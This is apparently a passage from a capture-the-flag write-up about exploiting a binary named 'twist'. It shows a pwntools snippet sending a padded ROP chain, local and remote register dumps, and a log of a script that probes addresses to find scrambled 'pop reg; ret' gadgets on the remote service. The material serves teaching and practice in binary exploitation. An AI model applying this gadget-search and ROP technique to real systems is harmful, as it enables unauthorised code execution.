```python

    p.sendline(pad+chain)
    p.recvline()
    info("%s" %p.recvline().decode())


pop_rax = e.sym['pop_rax']+0x4
debug_mode(pop_rax)
```

Testing locally produces the following output when we call the ``pop_rax; ret`` gadget and place ``0x1337`` on the stack. This appropriately results in ``rax`` being set to ``0x1337``. 

```
$ python3 test.py BIN=./twist
[*]    0x1337 | 0x401490 | 0x7fd0168a59a0 |    (nil) | 0x7fd0168a8680 | 0x1bdd6b1
```

Running the same script remotely produces different output, where now the ``rbx`` register is set to ``0x1337`` 

```
$ python3 test.py BIN=./twist REMOTE
[*]     (nil) |   0x1337 | 0x7fd0674f89a0 |    (nil) | 0x7fd0674fb680 | 0x7fd0674f8a23
```

Ok, we confirmed our hypothesis that the gadgets just got scrambled. Now we need to find where ``pop rax; ret`` resides in the remote binary by testing the address space from the local binary addreses of the functions ``pop_rax()`` to ``debug_mode()``. So we write a script that tests these addresses and identifies the following addresses that also do not segfault. At this point, we have the addresses for gadgets for ``pop r(ax|bx|cx|dx|di|si); ret``. But we do not have the ``syscall ret``. Arguably at this point, we could try our exploit with the 59 potential addresses for ``syscall; ret`` and walk away. But let us continue.

```
[remote version of twist]
[*] Starting pop rax gadget search between 0x401349 to 0x401385
[*] Gadget [0x401349]: pop rbx; ret
[*] Gadget [0x40134b]: [b'    (nil) ', b' 0x401490 ', b' 0x7fb56d8f49a0 ', b'    (nil) ', b' 0x7fb56d8f7680 ', b' 0x7fb56d8f4a23\n']
[*] Gadget [0x40134c]: [b'    (nil) ', b' 0x401490 ', b' 0x7f8f6e4b09a0 ', b'    (nil) ', b' 0x7f8f6e4b3680 ', b' 0x7f8f6e4b0a23\n']
[*] Gadget [0x401355]: [b'    (nil) ', b' 0x401490 ', b' 0x7f3ed7c289a0 ', b'    (nil) ', b' 0x7f3ed7c2b680 ', b' 0x7f3ed7c28a23\n']
[*] Gadget [0x401356]: [b'    (nil) ', b' 0x401490 ', b' 0x7f8e9323d9a0 ', b'    (nil) ', b' 0x7f8e93240680 ', b' 0x7f8e9323da23\n']
[*] Gadget [0x401359]: pop rdi; ret
[*] Gadget [0x40135a]: pop rdi; ret
[*] Gadget [0x40135c]: pop rdi; ret
[*] Gadget [0x40135e]: [b'    (nil) ', b' 0x401490 ', b' 0x7f27029fb9a0 ', b'    (nil) ', b' 0x7f27029fe680 ', b' 0x7f27029fba23\n']
[*] Gadget [0x40135f]: [b'    (nil) ', b' 0x401490 ', b' 0x7fcd8bd309a0 ', b'    (nil) ', b' 0x7fcd8bd33680 ', b' 0x7fcd8bd30a23\n']
[*] Gadget [0x401362]: pop rcx; ret
[*] Gadget [0x401363]: pop rcx; ret
[*] Gadget [0x401365]: pop rcx; ret
[*] Gadget [0x401367]: [b'    (nil) ', b' 0x401490 ', b' 0x7fa06dd739a0 ', b'    (nil) ', b' 0x7fa06dd76680 ', b' 0x7fa06dd73a23\n']
[*] Gadget [0x401368]: [b'    (nil) ', b' 0x401490 ', b' 0x7f04456d49a0 ', b'    (nil) ', b' 0x7f04456d7680 ', b' 0x7f04456d4a23\n']
[*] Gadget [0x40136b]: pop rax; ret
[*] Gadget [0x40136c]: pop rax; ret
[*] Gadget [0x40136e]: pop rax; ret
[*] Gadget [0x401370]: [b'    (nil) ', b' 0x401490 ', b' 0x7fbab0fa79a0 ', b'    (nil) ', b' 0x7fbab0faa680 ', b' 0x7fbab0fa7a23\n']
[*] Gadget [0x401371]: [b'    (nil) ', b' 0x401490 ', b' 0x7fecec5949a0 ', b'    (nil) ', b' 0x7fecec597680 ', b' 0x7fecec594a23\n']
```